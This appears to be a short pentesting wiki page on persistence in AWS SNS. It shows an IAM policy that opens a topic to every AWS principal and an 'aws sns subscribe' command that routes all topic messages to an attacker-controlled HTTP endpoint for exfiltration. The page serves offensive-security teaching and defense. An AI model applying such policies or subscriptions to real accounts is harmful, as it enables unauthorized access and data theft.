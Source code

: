 # AWS - SNS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## SNS

For more information check:

{{#ref}}
../aws-services/aws-sns-enum.md
{{#endref}}

### Persistence

When creating a **SNS topic** you need to indicate with an IAM policy **who has access to read and write**. It's possible to indicate external accounts, ARN of roles, or **even "\*"**.\
The following policy gives everyone in AWS access to read and write in the SNS topic called **`MySNS.fifo`**:

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "__default_statement_ID",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "SNS:Publish",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:DeleteTopic",
        "SNS:ListSubscriptionsByTopic",
        "SNS:GetTopicAttributes",
        "SNS:AddPermission",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
      "Condition": {
        "StringEquals": {
          "AWS:SourceOwner": "318142138553"
        }
      }
    },
    {
      "Sid": "__console_pub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Publish",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    },
    {
      "Sid": "__console_sub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Subscribe",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    }
  ]
}
```

### Create Subscribers

To continue exfiltrating all the messages from all the topics and attacker could **create subscribers for all the topics**.

Note that if the **topic is of type FIFO**, only subscribers using the protocol **SQS** can be used.

```bash
aws sns subscribe --region <region> \
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

{{#include ../../../banners/hacktricks-training.md}}





